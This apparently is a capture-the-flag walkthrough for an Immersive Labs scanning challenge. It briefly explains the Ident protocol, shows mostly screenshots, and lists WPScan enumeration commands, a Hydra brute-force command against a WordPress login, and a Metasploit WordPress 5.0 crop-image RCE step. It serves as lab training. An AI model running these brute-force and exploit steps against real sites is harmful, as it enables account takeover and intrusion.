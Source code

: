 ```yaml
---
date: 2025-04-24
categories: [CTF, ImmersiveLabs]
title: "IML - Scanning: Demonstrate Your Skills"
tags: ['hydra', 'privilege escalation', 'rce']

description: "Scanning Demonstrate Your Skills - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Scanning: Demonstrate Your Skills

The Ident Protocol is used over the Internet to associate a TCP connection with a specific user. Originally designed to aid in network management and security, it operates by allowing a server to query a client on port 113 to request information about the user of a particular TCP connection

![image1](../resources/2de1db59dbc6472f8af9f6f3cde5f59c.png)


![image2](../resources/eb191f5debd54a5db7cf0286d08a120e.png)

Target 2


![image3](../resources/5d4c5931a68b4f7d8a91d7ccf3d5696a.png)


![image4](../resources/672f8c3f4808473f972ee83b83c13bc4.png)


![image5](../resources/a5832b28ee664540b32437a943460d33.png)


![image6](../resources/f5c320e8aa7c49d79c045e944fb7e237.png)

![image7](../resources/c05da0e0c82749d5b1698bdef6ef7eba.png)


![image8](../resources/1d48218e63674b3b84ec2f403d558d7a.png)


![image9](../resources/69c33c6a221d4c348cb41d600e7faa0e.png)


![image10](../resources/e90800abb2994c9e9af2e5235781c3a4.png)


```bash
#Run a Basic WPScan
wpscan --url http://yourwebsite.com

#Scan for Themes and Plugins
wpscan --url http://yourwebsite.com --enumerate at
wpscan --url http://yourwebsite.com --enumerate ap

#Enumerate WordPress Users
wpscan --url http://yourwebsite.com --enumerate u

#Bruteforce a WordPress Login Password
wpscan --url http://yoursite.com --passwords path-to-wordlist --usernames <list of usernames or just one>

#Bruteforce a WordPress Login Password - Hydra
hydra -l <USERNAME> -P /usr/share/wordlists/rockyou.txt <IP_ADDRESS> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

**<u>Wordpress 5.0 exploit</u>**

**Need a username and password to use**

msfconsole > multi/http/wp_crop_rce
Now just set the options (USERNAME, PASSWORD, RHOSTS, LHOST) and exploit

